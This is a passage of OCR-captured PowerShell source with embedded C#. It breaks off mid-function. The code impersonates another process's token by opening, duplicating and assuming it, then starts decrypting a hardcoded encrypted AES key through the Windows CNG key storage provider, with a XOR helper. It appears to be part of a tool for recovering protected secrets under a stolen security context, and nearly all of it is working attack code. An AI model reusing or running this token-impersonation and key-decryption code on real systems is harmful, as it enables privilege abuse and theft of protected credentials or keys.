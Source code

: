 ```powershell
    [DllImport("ncrypt.dll")]
    public static extern int NCryptOpenKey(IntPtr hProvider, out IntPtr hKey, [MarshalAs(UnmanagedType.LPWStr)] string pszKeyName, uint dwLegacyKeySpec, uint dwFlags);
    
    [DllImport("ncrypt.dll")]
    public static extern int NCryptDecrypt(IntPtr hKey, byte[] pbInput, int cbInput, IntPtr pPaddingInfo, byte[] pbOutput, int cbOutput, out int pcbResult, uint dwFlags);
    
    [DllImport("ncrypt.dll")]
    public static extern int NCryptFreeObject(IntPtr hObject);
    
    public const uint TOKEN_QUERY = 0x0008;
    public const uint TOKEN_IMPERSONATE = 0x0004;
    public const uint TOKEN_DUPLICATE = 0x0002;
    public const int SecurityImpersonation = 2;
    public const uint NCRYPT_SILENT_FLAG = 0x00000040;
    
    public static bool ImpersonateProcessToken(string processName) {
        IntPtr hToken = IntPtr.Zero, dupeToken = IntPtr.Zero;
        try {
            Process[] processes = Process.GetProcessesByName(processName);
            if (processes.Length == 0) return false;
            
            if (!OpenProcessToken(processes[0].Handle, TOKEN_QUERY | TOKEN_IMPERSONATE | TOKEN_DUPLICATE, out hToken)) 
                return false;
                
            if (!DuplicateToken(hToken, SecurityImpersonation, out dupeToken)) 
                return false;
                
            return ImpersonateLoggedOnUser(dupeToken);
        }
        finally {
            if (hToken != IntPtr.Zero) CloseHandle(hToken);
            if (dupeToken != IntPtr.Zero) CloseHandle(dupeToken);
        }
    }
}
"@

function Invoke-ByteXor {
    param([byte[]]$Bytes1, [byte[]]$Bytes2)
    
    $result = [byte[]]::new($Bytes1.Length)
    for ($i = 0; $i -lt $Bytes1.Length; $i++) {
        $result[$i] = $Bytes1[$i] -bxor $Bytes2[$i]
    }
    return $result
}

function Get-DecryptedAesKey {
    param([string]$EncryptedKeyHex = "34d7b92748af91d1ad920bbf9179094d40f2af73ecfc23716f080da213e3e43d")
    
    Write-Host "[*] Converting encrypted key hex to bytes"
    $encryptedKeyBytes = for ($i = 0; $i -lt $EncryptedKeyHex.Length; $i += 2) {
        [Convert]::ToByte($EncryptedKeyHex.Substring($i, 2), 16)
    }
    Write-Host "[+] Encrypted key size: $($encryptedKeyBytes.Length) bytes"
    
    # Open storage provider
    Write-Host "[*] NCryptOpenStorageProvider: Opening Microsoft Software Key Storage Provider"
    $providerHandle = [IntPtr]::Zero
```
